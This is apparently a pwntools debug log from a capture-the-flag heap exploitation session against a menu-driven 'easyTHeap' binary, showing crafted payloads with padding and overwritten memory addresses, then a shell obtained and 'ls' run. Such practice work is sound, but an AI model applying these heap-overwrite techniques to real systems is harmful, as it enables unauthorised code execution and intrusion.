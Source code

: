 ```python
    00000040  62 62 62 62  62 62 62 62  1d fc dc f7  ff 7f 00 00  │bbbb│bbbb│····│····│
    00000050  0a                                                  │·│
    00000051
[DEBUG] Received 0x7b bytes:
    'Done!\n'
    '1.Add\n'
    '2.Edit\n'
    '3.Show\n'
    '4.Delete\n'
    '5.Exit\n'
    'choice: Please input current choice.\n'
    '1.Add\n'
    '2.Edit\n'
    '3.Show\n'
    '4.Delete\n'
    '5.Exit\n'
    'choice: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x5 bytes:
    'size?'
[DEBUG] Sent 0x3 bytes:
    '32\n'
[DEBUG] Received 0x32 bytes:
    'Done!\n'
    '1.Add\n'
    '2.Edit\n'
    '3.Show\n'
    '4.Delete\n'
    '5.Exit\n'
    'choice: '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x4 bytes:
    'idx?'
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Received 0x8 bytes:
    'content:'
[DEBUG] Sent 0x1c bytes:
    00000000  43 43 43 43  43 43 43 43  43 43 43 5c  e4 ae f7 ff  │CCCC│CCCC│CCC\│····│
    00000010  7f 00 00 a8  cc a7 f7 ff  7f 00 00 0a               │····│····│····│
    0000001c
[DEBUG] Received 0x32 bytes:
    'Done!\n'
    '1.Add\n'
    '2.Edit\n'
    '3.Show\n'
    '4.Delete\n'
    '5.Exit\n'
    'choice: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x5 bytes:
    'size?'
[DEBUG] Sent 0x3 bytes:
    '16\n'
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[*] Switching to interactive mode
[DEBUG] Received 0xc3 bytes:
    ' code\t        main_arena_offset-master       test1.c\n'
    ' core\t        pwndbg-dev\t\t       vn_pwn_easyTHeap\n'
```